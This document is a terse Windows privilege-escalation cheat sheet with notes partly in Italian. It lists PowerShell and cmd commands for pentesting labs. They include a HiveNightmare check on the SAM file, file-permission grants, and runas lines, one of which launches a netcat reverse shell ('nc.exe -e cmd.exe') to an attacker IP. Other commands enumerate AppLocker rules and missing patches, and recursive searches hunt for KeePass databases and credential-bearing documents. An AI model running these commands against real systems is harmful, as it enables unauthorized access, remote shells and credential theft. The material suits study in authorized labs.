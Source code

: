```bash
C:\Program Files\Windows PowerShell\*

# Check for HiveNightmare vulnerability (VEDERE PARAGRAFO NOTABLE VULN.)
icacls c:\Windows\System32\config\SAM

## Modifica dei permessi su un file
icacls root.txt /grant username:F

# Runas
runas /user:utente cmd
runas /user:administrator "C:\...\nc.exe -e cmd.exe $IP PORT"
# esempio utente di dominio
runas /netonly /user:INLANEFREIGHT\adunn powershell

# RunasCs
.\RunasCs.exe username cmd

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# Enumerating Protections 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Enumerating Missing Patches (VEDERE PARAGRAFO NOTABLE VULN.)
systeminfo
wmic qfe list brief
Get-Hotfix
Get-HotFix | ft -AutoSize
```

## Hidden in Plain View

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\username\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

pass
```

## Information Goldmine PowerShell
